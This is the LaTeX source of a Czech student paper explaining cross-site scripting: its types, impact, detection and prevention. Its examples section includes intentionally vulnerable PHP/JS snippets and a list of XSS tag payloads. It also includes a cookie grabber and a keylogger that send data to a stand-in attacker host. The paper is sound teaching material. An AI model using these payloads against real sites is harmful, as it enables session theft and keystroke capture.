\documentclass[11pt, conference, a4paper]{IEEEtran}
\IEEEoverridecommandlockouts
% The preceding line is only needed to identify funding in the first footnote. If that is unneeded, please comment it out.
\usepackage{cite}
\usepackage{amsmath,amssymb,amsfonts}
\usepackage{algorithmic}
\usepackage{graphicx}
\usepackage{textcomp}
\usepackage{xcolor}
\usepackage[colorlinks=false,hidelinks]{hyperref}
\usepackage{float}


\usepackage{listings}
\lstset{
    frame=shadowbox,
    basicstyle=\ttfamily\normalsize,
    keepspaces=true,   
    breakatwhitespace=true,         
    breaklines=true,
}

\makeatletter
\def\lst@makecaption{%
  \def\@captype{table}%
  \@makecaption
}
\makeatother

\usepackage[czech]{babel}
\def\BibTeX{{\rm B\kern-.05em{\sc i\kern-.025em b}\kern-.08em
    T\kern-.1667em\lower.7ex\hbox{E}\kern-.125emX}}

\def\abstractname{Abstrakt}
\def\IEEEkeywordsname{Klíčová slova}
\def\refname{Reference}
\renewcommand{\lstlistingname}{Výpis}
    
\begin{document}

\title{XSS \-- Cross\--site scripting}

\author{\IEEEauthorblockN{Bc. Michal Novák}
\IEEEauthorblockA{\textit{Fakulta informačních technologií} \\
\textit{Vysoké učení technické v~Brně}\\
Brno \\
xnovak3g@stud.fit.vut.cz}}
\maketitle

\begin{abstract}
Cross-site scripting (XSS) představuje jeden z~nejběžnějších a~nejnebezpečnějších typů útoků na webové aplikace. Útočníkovi je umožněno kvůli chybám v~kódu vložit vlastní škodlivý kód do webových stránek, který je následně spuštěn na straně klienta. Tato práce poskytuje úvod do problematiky XSS, popisuje jeho historii a~vysvětluje, jak tento typ útoku funguje. V~rámci práce je vysvětleno tradiční dělení na reflektované, uložené a~DOM XSS. V~návaznosti na to je také představeno modernější dělení na XSS serverové a~klientské. Dále se práce věnuje důsledkům XSS útoků a~uvádí konkrétní případy jejich použití. V~závěru jsou představeny různé metody detekce XSS, ochrany před napadením a~doporučené postupy při psaní kódu, jako jsou kódování výstupů, sanitace HTML nebo zabezpečení cookies.
\end{abstract}

\begin{IEEEkeywords}
XSS, Cross-site scripting, webová bezpečnost, zranitelnost, prevence
\end{IEEEkeywords}

\section{Úvod do XSS}

World Wide Web je od svého založení neodlučitelnou součástí každodenního života. Na internetu se staly závislými globální ekonomiky a~vlády, ale i~běžní lidé. Dnes si již nikdo nedokáže představit život bez webu a~webových aplikací, které jsou součástí našeho digitálního života. Mimo své výhody však webové aplikace přinášejí i~své problémy. Lidé jim začali bezhlavě důvěřovat a~sdělovat svá osobní data, jako jsou jména, adresy, telefonní čísla, čísla platebních karet, data narození, atd. Nedostatečné zabezpečení webových aplikací totiž často vystavuje osobní data riziku zcizení. 

Weboví vývojáři jsou v~dnešní době zodpovědní za bezpečnost dat a~funkčnost aplikací. Přeci jen, k~jejich aplikaci má většinou přístup kdokoliv s~připojením k~internetu.

Jednou z~největších zranitelností, kterou vývojáři webových aplikací musí pochopit a~naučit se jí předcházet, je právě XSS. XSS, neboli Cross-site scripting, je zranitelnost, kterou řadíme mezi takzvané injekční útoky (Injection attacks). Ačkoli je XSS relativně malá položka na seznamu bezpečnosti webových aplikací, mnohdy představuje nejnebezpečnější hrozbu pro běžného uživatele.~\cite{Grossman2007} Útok probíhá přímo na straně klienta, přičemž útočník se pokouší různými metodami vložit svůj škodlivý kód do jinak neškodného kódu. XSS se již několik let v~řadě vyskytuje na seznamu top deseti zranitelností společnosti OWASP.



\begin{table}[ht]
    \caption{OWASP Top Ten 2021 \cite{owasp-topten}}
    \label{tab:owasptop10}
    \centering
    \begin{tabular}{|l|}
        \hline
        A01:2021-Broken Access Control\\
        \hline
        A02:2021-Cryptographic Failures\\
        \hline
        A03:2021-Injection\\
        \hline
        A04:2021-Insecure Design\\
        \hline
        A05:2021-Security Misconfiguration\\
        \hline
        A06:2021-Vulnerable and Outdated Components\\
        \hline
        A07:2021-Identification and Authentication Failures\\
        \hline
        A08:2021-Software and Data Integrity Failures\\
        \hline
        A09:2021-Security Logging and Monitoring Failures\\
        \hline
        A10:2021-Server-Side Request Forgery (SSRF)\\
        \hline
    \end{tabular}
    
\end{table}

\section{Historie}
XSS lze datovat již do počátku systému World Wide Web (WWW, Web). První webové stránky byly statické a~tvořené čistě jazykem HTML (Hypertext Markup Language). Roku 1995 vzniká programovací jazyk JavaScript, který umožňuje spouštět kód v~prohlížeči klienta a~interagovat s~HTML pomocí objektového modelu dokumentu (DOM,  Document Object Model). Vznikají tak dynamické webové stránky umožňující vytvářet dynamická menu, vyskakovací okna, posuvnou galerii obrázků a~mnoho dalších, dnes již známých prvků moderních uživatelských rozhraní. 

Integrace JavaScriptu do prohlížečů ovšem mimo jiné otevřela vrátka i~pro mnohé nekalé praktiky. Útočníci brzy odhalili, že pomocí JavaScriptu mohou velmi jednoduše získat data nic netušících uživatelů. 

Před tím, než vůbec samotné XSS vzniklo, se používaly mnohem jednodušší útoky. Útočníkovi stačilo vytvořit stránku, která v~sobě mohla načíst jinou libovolnou stránku do HTML rámce v~témž okně prohlížeče. Útočníkova stránka poté mohla pomocí JavaScriptu \uv{překročit} hranici a~komunikovat přímo s~načtenou stránkou ve vytvořeném rámci. Daly se takto získat přihlašovací údaje z~formulářů, cookies či jiná citlivá data. Jako ochrana proti tomuto typu útoku byla tedy implementována ochrana \uv{same-origin policy}, která zabraňuje JavaScriptu v~překračování hranic stránek a~limituje jej pouze na původní stránku. Útočníci ovšem toto viděli jako výzvu a~začali odhalovat důmyslnější způsoby, jak omezení obcházet.

Označení cross-site scripting (XSS) se poprvé objevilo  v~interním dokumentu \uv{Script injection} společnosti Microsoft. Zaměstnanec společnosti, David Ross, tehdy popsal, jak takový útok může vypadat a~jak je mu možno předcházet.~\cite{Grossman2007}


\section{Jak funguje XSS}
\subsection{Kód na straně klienta}
Kód na straně klienta (Client-side code) je, jak už název napovídá, kód, který běží přímo u~uživatele na počítači. V~kontextu XSS se typicky jedná o~kód spouštěný v~prohlížeči po načtení webové stránky. Client-side kód je velmi užitečný k~tvorbě dynamických webových stránek nebo stránek s~interaktivním obsahem, který nepotřebuje komunikovat se servery.~\cite{XSS-cloudflare}

Mnohdy je XSS spojováno pouze s~jazykem JavaScript. Mohla by k~tomu i~napovídat historie XSS. JavaScript je sice v~dnešní době nejčastěji využíván k~útokům typu XSS, ale rozhodně není jediným. V~minulosti byl například k~XSS útokům často využíván ActionScript, objektově orientovaný programovací jazyk, který využíval platformy Adobe Flash. Ve starších verzích prohlížeče Internet Explorer bylo dále možno narazit na jazyk VBScript, který se podobal JavaScriptu. V~dnešní době je naopak možno setkat se s~útoky přes WebAssembly.

\subsection{Princip provedení útoku}
Přestože JavaScript není jediným jazykem, který je náchylný na útoky XSS, je pravděpodobně nejlepší pro vysvětlení principu. JavaScript má v~rámci prohlížeče přístup k~citlivým údajům uživatele, kterých by se útočník chtěl zmocnit. Takovými údaji mohou být například cookies, geolokační údaje, nebo dokonce i~přístup k~webkameře. JavaScript ale mimo jiné disponuje i~možností vykonávat HTTP dotazy, které mohou být využity k~odeslání ukradených dat k~útočníkovi. Samotný útok se nejčastěji skládá ze 3 kroků:
\begin{enumerate}
    \item Oběť načte webovou stránku se škodlivým kódem, který krade uživatelská data.
    
    \item Škodlivý kód pošle pomocí HTTP dotazu ukradená data na útočníkův webový server.

    \item Útočník využije ukradených dat k~vlastnímu prospěchu. Nejčastěji se využívá ukradených cookies, které obsahují tzv. \uv{session token}, pomocí něhož se může útočník vydávat za svoji oběť.~\cite{XSS-cloudflare}
    
\end{enumerate}

\begin{figure}
    \centering
    \caption{Základní princip XSS útoku \cite{snyk-xss}}
    \label{fig:xss}
    
\includegraphics[width=1\linewidth]{XSS_Attack-cropped.pdf}
\end{figure}

\section{Typy XSS}
Princip je poměrně jasný a~jednoznačný. Ovšem jak se vůbec útočníkovi povedlo vložit vlastní škodlivý kód na webovou stránku? Je zřejmé, že útočník danou stránku neprovozuje, jinak by vůbec takový útok provádět nemusel. Pokud stránku neprovozuje, tak ji samozřejmě nemůže ani upravovat. To by platilo v~případě, že je stránka plně vytvářena pomocí serveru. Ovšem, jak už bylo dříve uvedeno, alespoň nějaké část kódu běží u~samotného uživatele. 

Cross-site scripting nastává, když škodlivý kód je:
\begin{enumerate}
    \item vložen na webovou stránku přes nedůvěryhodný zdroj (nejčastěji webový požadavek),
    \item obsažen v~dynamickém obsahu, který je poslán uživateli bez toho, aby byl předem zkontrolován na přítomnost škodlivého kódu.
\end{enumerate}

\subsection{Běžně používané rozdělení}
Dnes je asi stále nejčastěji používané dělení XSS útoků na tři níže zmíněné typy. 

\subsubsection{Reflektované XSS}
Reflektované XSS, někdy též nazývané jako neperzistentní nebo XSS typu 1, využívá k~provedení útoku webového serveru tak, že jej donutí vrátit injektovaný škodlivý kód ve své odpovědi na webový dotaz. Útočník k~provedení útoku využívá upravené adresy URL nebo vstup webového formuláře (jenž je mnohdy při odeslání kódován do URL), které se zpracovávají na straně serveru. Pokud na serveru chybí řádné sanitace vstupů a~útočníkův vstup je i~součástí odpovědi serveru, dostane se škodlivý kód zpět do prohlížeče a~je spuštěn. Odtud také plyne název reflektované XSS. Navíc, škodlivý kód přišel ze serveru společně s~oficiální odpovědí, a~proto je proti takovému útoku ochrana typu \uv{same-origin policy} naprosto neefektivní. 

Stále je ale nutné doručit infikovanou stránku oběti. K~tomu je možné využít běžné internetové pošty, přímých zpráv, vyvěšených QR kódů, nebo jiných metod, kterými lze poslat či předat adresou URL. Odkaz vede na důvěryhodnou stránku a~oběť ani mnohdy netuší, že byla právě otevřením odkazu napadena.

\subsubsection{Uložené XSS}
Uložené XSS, jinak také perzistentní nebo XSS typu 2, se od reflektovaného XSS liší způsobem uchování škodlivého kódu. Zatímco u~reflektovaného XSS přežívá škodlivý kód například pouze v~URL, u~uloženého XSS se trvale zapíše do úložiště webového serveru, čímž je převážně nějaká databáze. Útočník k~útoku využívá webových stránek, které obsahují uživatelský obsah, jako jsou diskuzní fóra, sekce komentářů, recenze a~mnoho dalších. Na straně webového serveru opět schází správná sanitace uživatelského vstupu, který je ukládán. 

V případě uloženého XSS ani není nutné, aby útočník přímo posílal infikované stránky svým obětem. Stačí, aby oběti samy od sebe navštívily takové stránky, což z~tohoto typu dělá ten nejvíce nebezpečný. Při načtení infikovaného webu se škodlivý kód dostane do stránky z~úložiště serveru. Opět tedy platí, že ochrana typu \uv{same-origin policy} nemá šanci něčemu takovému zabránit.~\cite{XSS-owasp}

\subsubsection{DOM XSS}
DOM XSS, neboli XSS typu 0, je speciální varianta XSS, která se na první pohled podobá reflektovanému XSS. Zatímco u~reflektovaného XSS je škodlivý kód prvně poslán na server a~poté zase zpět, u~DOM XSS škodlivý kód neopustí prohlížeč své oběti. Prerekvizitou jsou dynamické webové stránky, které si ze serveru stahují pouze potřebná data, ale samotný základ stránky zůstává beze změny. V~tomto případě bývá uživatelský vstup získaný formulářem často přímo zobrazen editací DOM (document object modelu) a~zakódován do URL stránky. Pokud tedy, tentokráte na straně klienta, chybí řádná sanitace vstupů, je injektovaný škodlivý kód spuštěn. Postup napadnutí oběti útočníkem je poté v~zásadě identický s~variantou reflektovaného XSS.~\cite{DOM-XSS-owasp}

\subsection{Nové a~přesnější rozdělení}
V realitě není úplně jednoduché separovat reflektované, uložené a~DOM XSS, jelikož se velmi často překrývají. Proto bylo roku 2012 komunitou zabývající se výzkumem XSS navrženo používání nových termínů na kategorizaci XSS.

\subsubsection{Serverové XSS}
XSS nazýváme serverovým, pokud nedůvěryhodná data pocházejí z~HTTP odpovědi generované na straně serveru. Nedůvěryhodná data už mohou mít libovolný původ, ať už z~HTTP dotazu, či z~úložiště serveru. V~tomto případě je zranitelnost na straně serveru a~prohlížeč pouze vykresluje odpověď a~spouští validní obsažené kódy.


\subsubsection{Klientské XSS}
Klientské XSS nastává, když jsou nedůvěryhodná data použita k~úpravě DOM za použití JavaScriptu, který může nezabezpečeně vložit další funkční JavaScript kód do DOM. Zdrojem nedůvěryhodných dat u~klientského XSS může být cokoliv, například klientské úložiště, nebo data stažená ze serveru.~\cite{TYPES-XSS-owasp}


\section{Dopady XSS}
Dopady XSS útoku na oběť jsou rovnocenné pro všechny typy XSS útoku a~nezáleží na tom, jakým způsobem se škodlivý kód k~oběti dostane. Rozsah škod úspěšného útoku může být velmi variabilní.

Často se XSS útoky využívají ke zcizení cookies, které mohou obsahovat citlivá data včetně takzvaného \uv{session token}. \uv{Session token} je identifikátor HTTP spojení, jenž se používá k~autentizaci uživatele. Pokud dojde ke zcizení, může se útočník jednoduše vydávat za svou oběť. Nicméně lze pomoci XSS ukrást i~samotné přihlašovací údaje, například injektováním kódu, který uživatele donutí opětovně zadat přihlašovací údaje. 

Zajímavým uplatněním XSS je i~nežádoucí pozměnění zobrazované webové stránky. Pozměnění se může týkat jak textu, tak zobrazovaných grafických prvků. Zde nemusí být nutně obětí ten, co si webovou stránku zobrazí, nýbrž provozovatel stránky, jehož dobré jméno může být tímto poškozeno. 

Dalšími příklady mohou být přesměrování na jinou webovou stránku, instalace nežádoucího programu \mbox{(malware)}, vložení dalšího škodlivého kódu, atd.


\section{Příklady použití XSS}
Na internetu existuje nespočet příkladů XSS a~také stránek, na kterých si lze základy XSS vyzkoušet. 

\subsection{Principy na příkladech}
Aby bylo možno ukázat příklady reálného útoku, je nejprve nutné pochopit základní principy, které lze využít. V~tomto případě je lepší ukázat principy podle starého dělení, jelikož je pravděpodobně více pochopitelné.

\subsubsection{Reflektované XSS}
Nejjednodušším příkladem, na kterém lze ukázat, jaké zranitelnosti lze využít, je základní \uv{echo} server, který pouze vypíše vstup uživatele.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Jednoduchý PHP \uv{echo} server,
  label=lst1,]
<html>
<body>

<?php
echo "User input:" . $_GET['input'];
?>

</body>
</html>
\end{lstlisting}
\end{figure}

Pokud se na serveru vyskytuje kód podobný výpisu \ref{lst1}, stačí, aby útočník vytvořil URL s~parametrem \texttt{input}, který obsahuje škodlivý kód\footnote{MC ve výpisu značí škodlivý kód.}. 

\begin{figure}[H]
\begin{lstlisting}[
  caption=Ukázka URL pro výpis \ref{lst1},
  label=lst2,]
http://site/?input=<script>MC</script>
\end{lstlisting}
\end{figure}

Podobný princip lze využít, i~pokud server sám zpracovává neznámé URL implementováním \uv{Not found} stránky, která vypisuje chybnou URL.

\begin{figure}[H]
\begin{lstlisting}[
  caption=\uv{Not found} PHP stránka,
  label=lst3,]
<html>
<body>
<?php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
\end{lstlisting}
\end{figure}

V případě kódu z~výpisu \ref{lst3} již není potřeba ukládat škodlivý kód do parametrů, ale může přímo tvořit URL.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Ukázka URL pro výpis \ref{lst3},
  label=lst4,]
http://site/<script>MC</script>
\end{lstlisting}
\end{figure}

\subsubsection{Uložené XSS}
U uloženého XSS již nejsou kódy tak jednoduché na ukázku, proto bude ukázán jen zjednodušený základní princip. Data se na server dostávají stejnou cestou, jako je tomu u reflektovaného XSS. Před prvním výpisem dat však dochází k~jejich uložení do paměti serveru (například databáze) a~následnému čtení z~paměti.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Příklad PHP serveru s~ukládáním dat,
  label=lst5,]
<html>
<body>

<?php
// store data in databse
$db->store($_GET['input']);

// fetch data from database
echo $db->getAllData();
?>

</body>
</html>
\end{lstlisting}
\end{figure}

Na příkladu z~výpisu \ref{lst5} se provede jednoduché uložení uživatelského vstupu do databáze a~následný výpis všech uložených dat v~databázi. Příklad URL je shodný s~ukázkou ve výpisu \ref{lst2}.

\subsubsection{DOM XSS}
Příklad pro DOM XSS může vypadat podobně jako příklad u reflektovaného XSS, pouze se vše bude dít na straně klienta. 

\begin{figure}[H]
\begin{lstlisting}[
  caption=Příklad DOM XSS,
  label=lst6,]
<html>

<script>
function(){
var data = (new URLSearchParams( window.location.search)) .get('input')
document.body.innerHTML = data;
}
</script>

<body onload="function()">

</body>
</html>
\end{lstlisting}
\end{figure}

Kód z~výpisu \ref{lst6} získá uživatelská data z~URL parametru \texttt{input} a~vloží je do HTML prvku \texttt{body}. V~tomto případě však nelze plně použít URL z~výpisu \ref{lst2}, jelikož by se script pouze vložil, ale dále nespustil. 

\begin{figure}[H]
\begin{lstlisting}[
  caption=Ukázka URL pro výpis \ref{lst6},
  label=lst7,]
http://site/input?<img src=x onerror="MC">
\end{lstlisting}
\end{figure}

V příkladu URL z~výpisu \ref{lst7} je použit HTML tag \texttt{img}, který při správném použití může spustit JavaScript. 


\subsection{Reálné útoky}
Nejjednodušším příkladem reálného útoku je tzv. \mbox{\uv{cookie grabber}}, který získá cookies uživatele a~pošle jej pomocí HTTP dotazu na útočníkův server. Tento útok je možno realizovat libovolným typem XSS.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Cookie grabber,
  label=lst1:cg,]
<script type="text/javascript">
var address = 'http://attacker.test?cakemonster=' + escape(document.cookie);
fetch(address);
</script>
\end{lstlisting}
\end{figure}


Pokud chce útočník zaznamenávat, co uživatel na stránce píše, může to udělat pomocí takzvaného \uv{keyloggeru}. \uv{Keylogger} z~výpisu \ref{lst1:kl} používá místo \texttt{script} tagu \texttt{img} tag.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Keylogger,
  label=lst1:kl,]
<img src=x onerror='document.onkeypress = function(e) { fetch ("http://attacker.test?k=" + String.fromCharCode(e.which))}, this.remove();'>
\end{lstlisting}
\end{figure}


Přesměrování na útočníkovu stránku pomocí XSS také není vůbec nic složitého.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Přesměrování na útočníkovu stránku,
  label=lst1:redirection,]
<script>
    window.location.href = "https://malicious-site.com";
</script>
\end{lstlisting}
\end{figure}

\begin{figure}[H]
\begin{lstlisting}[
  caption=Tagy umožňující spouštět JavaScript,
  label=lst1:tags,]
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<div onpointerover="alert('XSS')">MOVE HERE</div>
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert('XSS')>
<select autofocus onfocus=alert('XSS')>
<textarea autofocus onfocus=alert('XSS')>
<keygen autofocus onfocus=alert('XSS')>
<video/poster/onerror=alert('XSS')>
<video><source onerror="javascript:alert('XSS')">
<video src=_ onloadstart="alert('XSS')">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert('XSS')>
<marquee onstart=alert('XSS')>
<meter value=2 min=0 max=10 onmouseover=alert('XSS')></meter>
\end{lstlisting}
\end{figure}

V HTML5 lze JavaScript kód spouštět pomocí více HTML tagů.~\cite{swisskyrepo2024XSS}


\section{Jak detekovat XSS zranitelnosti}
XSS zranitelnosti mohou být poměrně náročné na detekci a~odstranění z~již existující webové aplikace. Nejlepším způsobem bývá provedení plné revize zdrojových kódů aplikace. Nejdůležitější při revizi je zaměřit se na místa, na než se vkládají uživatelský vstup nebo data z~HTTP dotazů do HTML kódu webové stránky. Je nutné dávat si pozor na veškeré HTML tagy, které mohou být použity pro spouštění JavaScript kódu, a~ne jen na \texttt{<script>} tag.

K odhalení XSS zranitelností je také možno použít některé užitečné nástroje, jako jsou například Nessus a~Nikto. Pokud je zranitelná nějaká část aplikace, je velmi pravděpodobné, že problém může být i~na jiných místech.



\section{Předcházení útoků XSS}
XSS je komplexní problém, který trápí vývojáře už nějakou dobu a~rozhodně v~brzké době jen tak nezmizí. Neexistuje obecné řešení, které by mohlo být jednoduše aplikovatelné pro většinu webových aplikací.

Problémem je oddělit od sebe požadovanou funkčnost webové aplikace od škodlivé činnosti. Prohlížeč sám o~sobě není bezpečný. Byl vytvořen k~provádění HTTP dotazů a~následné zobrazování výsledků, což mimo jiné zahrnuje i~schopnost spouštět kódy napsané v~jazyce JavaScript. JavaScript je standardním jazykem webových vývojářů, kteří jej používají všemi možnými způsoby, ať už dobrými či špatnými, aby dosáhli požadované funkcionality. Prohlížeč tedy nemůže jen tak vyhodnotit, zda-li kód provádí něco nekalého a~nežádoucího. I~činnosti, jako například procházení cookies a~čtení ze systémové schránky (clipboard), jsou mnohdy volány validními programy a~taková funkcionalita nemůže být jednoduše zakázána.

Ze všech problémů však není možné vinit prohlížeč. Většině zranitelností by šlo předejít poměrně jednoduše. Základem je, aby vývojáři začali vytvářet bezpečné stránky, což se aktuálně často neděje. Útočníci mohou jednoduše využít chyb vývojářů k~vlastnímu prospěchu. Proto je nutné vzdělávat vývojáře v~metodách, jak zabezpečit svoje aplikace.~\cite{Grossman2007}

% https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

% Framework Security
Naštěstí, webové aplikace využívající moderních frameworků obsahují méně chyb, které by mohly být využity k~XSS. Tyto frameworky totiž vedou vývojáře k~lepším bezpečnostním praktikám a~pomáhají bojovat proti XSS. Avšak i~tak by měl vývojář mít přehled o~tom, jak daný framework funguje a~jaká jsou jeho slabá místa. Zároveň stále existují situace, ve kterých zvolený framework neposkytuje potřebnou funkcionalitu, kterou nakonec vývojář musí udělat svépomocí.

% XSS Defense Philosophy

Aby byl XSS útok úspěšný, musí se útočníkovi podařit vložit škodlivý kód do aplikace a~následně jej spustit. Proto je potřeba zabezpečit všechny proměnné aplikace. Zajištěním, že veškerý obsah uložený v~proměnných projde řádnou validací a~sanitací nebo překódováním do \uv{escape} sekvencí, je možno docílit potřebné ochrany proti injekcím kódu. Každou proměnnou, která tímto procesem neprojde, je možno považovat za potenciální zranitelnost.

\subsection{Kódování výstupu} % Output Encoding
Kódování výstupu (output encoding) je doporučený způsob, jak bezpečně vypisovat data přesně tak, jak je uživatel vepsal. Proměnné by neměly být vyhodnocovány jako kód namísto textu. Ve většině moderních frameworků je tato funkce zabudována automaticky. Pokud však framework není použit nebo má použitý framework \uv{díry}, je doporučeno použít pro kódování výstupu externí knihovnu. Každá proměnná použitá pro výpis v~uživatelském rozhraní by správně měla projít kódovací funkcí.

Existuje mnoho druhů kódování výstupu pro prohlížeč, jelikož jsou zvlášť zpracovávány HTML, CSS, JavaScript  kódy a~URL adresy. Při použití špatné metody kódování může dojít k~oslabení systému a~omezení funkcionality aplikace. 



\subsection{HTML sanitace} % HTML Sanitization
Mnohé webové stránky v~sobě mají pro zjednodušení implementovány WYSIWYG (What You See Is What You Get) editor pro úpravu HTML obsahu jednotlivých stránek. Zakódování obsahu v~tomto případě sice zablokuje možné XSS, ale zároveň zničí i~zamýšlenou funkcionalitu, jako je například stylizování. V~tomto případě je možno použít sanitaci HTML. HTML sanitace odstraní nebezpečný HTML kód z~proměnné a~vrátí pouze bezpečné HTML. Organizace OWASP k~tomuto doporučuje knihovnu DOMPurify. 


\subsection{Safe sinks}
Safe sinks označuje bezpečná místa nebo cíle, kam je možno vložit v~aplikaci data, aniž by došlo k~narušení bezpečnosti. V~praxi se jedná o techniky, které zajišťují, že data z~uživatelských vstupů jsou před jejich vložením na webové stránky správně ošetřena. Rozhodně se nedoporučuje používat atributu \texttt{innerHTML} pro vkládání textu.~\cite{Prevention-XSS-owasp}

\begin{figure}[H]
\begin{lstlisting}[
  caption=Příklad \uv{safe sinks} v~JavaScript kódu,
  label=lst1:ss,]
elem.textContent = dangerVar;
elem.insertAdjacentText(dangerVar);
elem.className = dangerVar;
elem.setAttribute(safeName, dangerVar);
formfield.value = dangerVar;
document.createTextNode(dangerVar);
document.createElement(dangerVar);
elem.innerHTML = DOMPurify.sanitize(dangerVar);
\end{lstlisting}
\end{figure}

\subsection{Zabezpečení cookies}
Webové aplikace mohou mít nastaveny speciální opatření, jakým způsobem se pracuje s~cookies. Obsah cookies může být navázán na specifickou IP adresu, což prakticky znemožňuje využít ukradených \uv{session tokenů}.~\cite{XSS-cloudflare}


\section{Závěr}
Cross-site scripting představuje vážnou hrozbu pro webové aplikace a~jejich uživatele. Přestože je tento typ útoku znám již dlouhou dobu, stále je široce využíván z~důvodu nedostatečné ochrany a~chybné implementace bezpečnostních opatření. Tato práce se zaměřila na podrobné fungování XSS a~jeho typů. Dále se zabývala dopady, které mohou mít XSS útoky na bezpečnost dat, a~uvedla reálné příklady provedení útoku. Na závěr byly popsány různé metody detekce a~prevence XSS útoků, mezi něž mohou patřit kódování výstupů, HTML sanitace, používání tzv. \uv{safe sinks} a~ochrana cookies. Implementace těchto opatření může významně přispět k~minimalizaci rizika XSS a~ke zvýšení celkové bezpečnosti webové aplikace. Pochopení problematiky XSS a~důkladné prevence proti útokům by mělo patřit k základním znalostem každého správného webového vývojáře.


\bibliographystyle{IEEEtran}  
\bibliography{project}  
\end{document}
